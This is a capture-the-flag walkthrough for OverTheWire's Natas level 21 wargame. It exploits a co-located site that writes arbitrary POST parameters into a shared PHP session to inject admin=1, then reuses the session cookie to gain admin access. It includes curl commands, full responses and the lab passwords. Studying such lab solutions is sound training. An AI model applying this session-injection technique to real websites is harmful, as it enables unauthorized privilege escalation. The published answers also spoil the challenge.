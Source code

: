 # Natas Level 21
```bash
Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
URL:      http://natas21.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas21.png" />
    <div align="center">Natas 21</div>
</figure>

And the [source code](http://natas21.natas.labs.overthewire.org/index-source.html):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas21-view-sourcecode.png" />
    <div align="center">Natas 21 - View sourcecode</div>
</figure>

Again, we need admin=1 in the session data

```basg
Note: this website is colocated with http://natas21-experimenter.natas.labs.overthewire.org
```

Checking the co-located site:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas21-colocated-website.png" />
    <div align="center">Natas 21 - Co-located site</div>
</figure>

And its [source code](http://natas21-experimenter.natas.labs.overthewire.org/index-source.html):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas21-colocated-website-view-sourcecode.png" />
    <div align="center">Natas 21 - Co-located site - View sourcecode</div>
</figure>

Both site are co-located so they share session IDs.
```php
$form .= '<form action="index.php" method="POST">'; 
foreach($validkeys as $key => $defval) { 
    $val = $defval; 
    if(array_key_exists($key, $_SESSION)) { 
        $val = $_SESSION[$key]; 
    } else { 
        $_SESSION[$key] = $val; 
    } 
    $form .= "$key: <input name='$key' value='$val' /><br>"; 
}
```

We can see the session data being saved from the POST parameters.

We just need to submit another key/value (admin=1), lets use cURL:
```bash
curl -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ --cookie-jar - -L 'http://natas21-experimenter.natas.labs.overthewire.org?submit&debug&admin=1'
```

We get:
```bash
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
[DEBUG] Session contents:<br>Array
(
[submit] => 
[debug] => 
[admin] => 1
)

<p>Example:</p>
<div style='background-color: yellow; text-align: center; font-size: 100%;'>Hello world!</div>
<p>Change example values here:</p>
<form action="index.php" method="POST">align: <input name='align' value='center' /><br>fontsize: <input name='fontsize' value='100%' /><br>bgcolor: <input name='bgcolor' value='yellow' /><br><input type="submit" name="submit" value="Update" /></form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
# Netscape HTTP Cookie File
# http://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

#HttpOnly_natas21-experimenter.natas.labs.overthewire.org FALSE / FALSE 0 PHPSESSID hkrbr62hu6choo542bi5ufq2v2
```

And using the cookie(PHPSESSID=hkrbr62hu6choo542bi5ufq2v2):
```bash
curl -b PHPSESSID=hkrbr62hu6choo542bi5ufq2v2 -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ 'http://natas21.natas.labs.overthewire.org/index.php'
```

We get:
```bash
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas21", "pass": "IFekPyrQXftziDEsUr3x21sYuahypdgJ" };</script></head>
<body>
<h1>natas21</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21-experimenter.natas.labs.overthewire.org">http://natas21-experimenter.natas.labs.overthewire.org</a></b>
</p>

You are an admin. The credentials for the next level are:<br><pre>Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We got the password for the next level: **chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ**